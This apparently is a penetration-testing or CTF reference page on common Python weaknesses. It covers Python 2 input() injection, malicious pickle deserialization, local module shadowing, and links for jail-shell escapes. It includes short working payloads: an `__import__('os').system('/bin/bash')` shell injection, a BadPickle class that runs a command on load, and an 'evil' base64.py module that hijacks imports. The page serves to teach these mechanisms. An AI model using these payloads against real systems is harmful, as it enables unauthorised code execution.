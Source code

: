 # Python

Python is a language powering an extraordinary number of applications, but here we're just going to focus on very common coding errors you're likely to find. These can be useful in cases of both web applications as well as local and exploiting any of these is incredibly context specific.

## python2 input

In python 2, the input function worked in an interesting manner. It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function. However, this also allowed any arbitrary code to be injected. In cases where you have a python 2 style input mechanism, simply write the following:

```python
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and `raw_input` from python 2 replaced it, so this attack is no longer possible.

## Pickle Deserialization

During pickle deserialization, it is possible to create a situation where arbitrary code is executed. This is because the reduce method defines how the object itself is de-serialized, and so will be executed when pickle.loads is called.  The `BadPickle` class below, when pickle and loaded, will execute the chosen cmd.

```python
import subprocess
cmd = ['ls', '-la']
class BadPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, (cmd,))
print cPickle.dumps(BadPickle())
```

**Further Reading**  
[https://blog.nelhage.com/2011/03/exploiting-pickle/    
](https://blog.nelhage.com/2011/03/exploiting-pickle/%20)[https://sensepost.com/blog/2010/playing-with-python-pickle-%231/    
](https://sensepost.com/blog/2010/playing-with-python-pickle-%231/%20)[https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)

## Module Overwrite

Consider the following program:

```python
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```python
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```python
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules. Consequently, it is more than possible to take over a python scripts execution, even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

## Jail Shells

The topic of python jail shells risks becoming very weighty due to the sheer mass of methods different CTF creators or Pentesters have found to bypass them, but as they make for almost standard fare in CTF challenges, I feel like a collection of different methods wouldn't go amiss.

[PlaidCTF - PyJail with Character Restrictions](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/)

## Further Reading

[Vlog \#010: Dumping interpreter's history](https://www.youtube.com/watch?v=u9hQEfhiTj4)

